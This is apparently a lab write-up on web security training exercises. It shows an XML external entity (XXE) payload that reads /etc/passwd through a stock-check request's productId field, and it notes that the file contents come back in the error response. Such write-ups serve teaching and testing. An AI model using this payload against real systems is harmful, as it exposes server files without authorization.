 
<p align="center">
  <img src="/captures/04.01.png"><br/>
</p>

# 5. XXE
## Lab: Exploiting XXE using external entities to retrieve files
### Exploit
We can intercept the request and modify the XML to include an external entity that retrieves the contents of the `/etc/passwd` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE data [
        <!ELEMENT stockCheck ANY>
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
The response contains "Invalid product ID:" followed by the contents of the /etc/passwd file.

<p align="center">